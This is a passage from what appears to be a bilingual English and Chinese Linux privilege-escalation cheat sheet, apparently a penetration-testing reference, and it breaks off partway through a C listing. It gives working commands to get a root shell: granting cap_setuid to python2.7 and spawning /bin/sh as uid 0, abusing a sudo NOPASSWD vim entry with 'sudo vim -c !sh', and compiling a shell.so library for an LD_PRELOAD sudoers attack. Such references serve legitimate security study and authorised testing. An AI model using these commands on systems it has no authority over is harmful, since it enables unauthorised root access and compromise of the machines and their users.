 ```
$ getcap openssl /usr/bin/openssl 
如结果
openssl=ep

# Alternatively the following capabilities can be used in order to upgrade your current privileges.
# 或者可以使用以下功能来升级当前权限

cap_dac_read_search # read anything
cap_setuid+ep # setuid

# Example of privilege escalation with cap_setuid+ep
# 例如 使用 cap_setuid+ep 进行权限提升

$ sudo /usr/bin/setcap cap_setuid+ep /usr/bin/python2.7

$ python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
sh-5.0# id
uid=0(root) gid=1000(swissky)
```


#### SUDO

```
# ---------------
# NOPASSWD

# Sudo configuration might allow a user to execute some command with another user privileges without knowing the password.
# Sudo配置可能允许用户在不知道密码的情况下使用其他用户权限执行某些命令。

$ sudo -l
如结果
User demo may run the following commands on crashlab:
    (root) NOPASSWD: /usr/bin/vim

# In this example the user demo can run vim as root, it is now trivial to get a shell by adding an ssh key into the root directory or by calling sh.
# 例如 名为demo的用户 可以使用root身份运行vim，现在轻易可以获取shell:
# 方法1.通过在根目录中添加ssh密钥

# 方法2.通过调用sh

sudo vim -c '!sh'
sudo -u root vim -c '!sh'


# ---------------
# LD_PRELOAD and NOPASSWD

# If LD_PRELOAD is explicitly defined in the sudoers file
# 如果在sudoers文件中显式定义了 LD_PRELOAD 如下
Defaults        env_keep += LD_PRELOAD

# 使用以下命令 编译c代码
gcc -fPIC -shared -o shell.so shell.c -nostartfiles

# shell.c

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
	unsetenv("LD_PRELOAD");
```